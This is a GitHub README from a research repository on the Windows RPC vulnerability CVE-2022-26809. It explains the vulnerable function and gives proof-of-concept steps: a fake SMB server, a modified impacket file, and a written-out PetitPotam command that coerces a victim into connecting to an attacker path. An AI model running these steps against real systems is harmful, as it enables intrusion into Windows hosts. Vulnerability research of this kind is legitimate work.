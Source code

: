 # Cve-2022-26809
## CVE-2022-26809

This repo just simply research for the CVE, for more detailed ananlysis,please refer [here](http://showlinkroom.me/2022/04/30/Windows-CVE-2022-26809/).   
**UPDATE:05/19 2022**  
This ananlyze hasn't been finished yet....

**UPDATE:05/22 2022**  
[HuanGMz Post](https://paper.seebug.org/1906/) and [corelight blog](https://corelight.com/blog/another-day-another-dce-rpc-rce) show the real vulnerable point:  

`OSF_CASSOCIATION::ProcessBindAckOrNak`  
![](vul.png)   

This vulnerability is triggered like [CVE-2021-43893](https://www.rapid7.com/blog/post/2022/02/14/dropping-files-on-a-domain-controller-using-cve-2021-43893/), when send the ESFRPC request to lsass.exe with **UNC path**, victim will try to access target **as client**, so it will trigger interger overflow at **client API**


If have any better solution to trigger this vuln, feel free to submit issue or pr :)

### PoC-CVE-2022-26809
_[refer here](https://paper.seebug.org/1906/)_  

Because the vulnerability triggered like `CVE-2021-43893`, just clone the [PetitPotam](https://github.com/topotam/PetitPotam) code.

Just prepare environment just like here:
  
![](prepare.png)  

 - trigger: with PetitPotam
 - victim: with Vulnerable rpcrt4.dll
 - attacker: with attacker-server

1. Run `fake_smb_server.py` at attacker-server aflter replacing the rpcrt.py wit origin one(**Because the 445 port has been occupied by System on Windows, it recommend to deploy service on linux **
2. trigger the victim to access attacker serve with
```
python petitpotam.py -pipe lsarpc -method DecryptFileSrv -debug "user:password@victim.ip" "\\attacker.path\realfile
```
3. It will not cause BSOD usually, enable the page heap for `lsass.exe`(_However, I have not success triggered BSoD, but accroding the windbg, the interger overflow has been triggered_)



**Old Description**  
Here is reproduce code for Windows RPC Vuln `CVE-2022-26809`, and it refer [https://github.com/microsoft/Windows-classic-samples/blob/main/Samples/Win7Samples/netds/rpc/hello](https://github.com/microsoft/Windows-classic-samples/blob/main/Samples/Win7Samples/netds/rpc/hello).  

### PoC-OSF_SCALL::GetCoalescedBuffer
_My python version is 3.6.7_
_Not sure if GetCoalescedBuffer will involve real CVE-2022-26809, just keep it_
the `poc.py` just **try** to trigger the vuln function`OSF_SCALL::GetCoalescedBuffer`, it **wouldn't cause any crash because dword integer overflow is too hard to reproduce**.And the `rpcrt.py` is the python package `impacket.dcerpc.v5.rpcrt`，just replace it with origin to trigger vuln(Remember to backup the origin one :) I believe the `rpcrt.py` has a huge of bugs).

If it not work, maybe **wireshark** can help to locate the bug.

#### PipeDemo
if necessary, just use `nmake` to rebuild it
